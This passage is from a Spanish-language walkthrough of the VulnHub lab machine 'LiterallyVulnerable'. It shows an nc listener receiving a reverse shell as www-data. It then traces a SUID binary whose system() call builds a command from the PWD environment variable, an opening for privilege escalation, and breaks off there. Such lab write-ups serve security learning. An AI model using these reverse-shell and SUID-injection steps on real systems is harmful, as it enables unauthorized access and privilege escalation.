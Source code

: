 ![404whoami](/assets/img/commons/vulnhub/LiterallyVulnerable/404whoami.png){: .center-image }

![404rs](/assets/img/commons/vulnhub/LiterallyVulnerable/404rs.png){: .center-image }

Nos ponemos en escucha y obtenemos la conexión.

```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.35] 35688
bash: cannot set terminal process group (1135): Inappropriate ioctl for device
bash: no job control in this shell
</www/html/phpcms/wp-content/themes/twentynineteen$ whoami
whoami
www-data
```

## User Pivoting

---

En este momento somos el usuario `www-data`, listando los archivos del sistema encontramos un binario SUID perteneciente al usuario `john`, el cual al ejecutarlo te devuelve un mensaje con un path.

```bash
www-data@literallyvulnerable:/home/doe$ ./itseasy
Your Path is: /home/doe
```

Teniendo disponible el comando `ltrace` podemos debuguear el programa.

```bash
www-data@literallyvulnerable:/home/doe$ ltrace ./itseasy
getegid()                                                                                                                                                        = 33
geteuid()                                                                                                                                                        = 33
setresgid(33, 33, 33, 33)                                                                                                                                        = 0
setresuid(33, 33, 33, 33)                                                                                                                                        = 0
getenv("PWD")                                                                                                                                                    = "/home/doe"
asprintf(0x7ffe7e3fdc50, 0x5651d8ed19a8, 0x7ffe7e3feecc, 68)                                                                                                     = 33
system("/bin/echo Your Path is: /home/do"...Your Path is: /home/doe
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                                           = 0
+++ exited (status 0) +++
www-data@literallyvulnerable:/home/doe$
```
